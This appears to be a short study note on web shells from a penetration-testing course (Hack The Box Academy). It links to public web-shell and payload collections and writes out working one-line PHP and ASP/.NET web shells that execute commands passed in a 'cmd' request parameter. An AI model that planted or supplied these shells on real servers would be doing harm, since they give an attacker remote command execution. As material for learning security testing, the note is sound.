

Web Shells
•
Semi Interactive Web Shell It provides a terminal-like, semi-interactive web shell
https://github.com/Arrexel/phpbash  •
Web shells for different frameworks and languages ◇ ALL:
https://github.com/danielmiessler/SecLists/tree/master/Web-Shells ◇ .asp:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASPCustom Web Shell ◇
PHP ▪ use the system() function that executes system commands and prints their output, and pass it the cmd parameter with $_REQUEST['cmd']
<?php system($_REQUEST['cmd']); ?>
Note: If we are using this custom web shell in a browser, it may be best to use source-view by clicking [CTRL+U], as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.
◇
.NET ▪ pass the cmd parameter with request('cmd') to the eval() function, and it should also execute the command specified in ?cmd= and print its output
<% eval request('cmd') %>Bibliography:
https://academy.hackthebox.com/